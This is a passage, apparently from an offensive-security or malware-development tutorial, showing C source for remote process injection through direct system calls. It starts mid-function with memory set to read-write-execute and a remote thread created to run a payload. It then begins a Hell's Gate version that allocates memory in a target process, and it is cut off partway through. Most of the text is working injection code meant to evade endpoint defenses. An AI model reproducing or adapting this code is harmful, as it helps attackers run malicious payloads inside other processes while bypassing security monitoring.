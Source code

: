 ```
	printf("[+] DONE \n");

//--------------------------------------------------------------------------
	// Changing the memory's permissions to RWX
	if ((STATUS = NtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------
	// Executing the payload via thread
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

	return TRUE;
}

```
### **Implementation Using Hell's Gate**

The last implementation for this module is using Hell's Gate. First, ensure that the same steps done to set up the Visual Studio project with SysWhispers3 are done here too. Specifically, enabling MASM and modifying the properties to set the ASM file to be compiled using the Microsoft Macro Assembler.

### **Changing Payload Function**

A few changes need to be made to the Hell's Gate code. First, the [Payload function](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L166) must be replaced with the `ClassicInjectionViaSyscalls` function.


```
BOOL ClassicInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	NTSTATUS	STATUS                  = 0x00;
	PVOID		pAddress                = NULL;
	ULONG		uOldProtection          = NULL;

	SIZE_T		sSize                   = sPayloadSize,
			    sNumberOfBytesWritten   = NULL;
	HANDLE		hThread	                = NULL;


	// Allocating memory
	HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
	printf("[#] Press <Enter> To Write The Payload ... ");
```
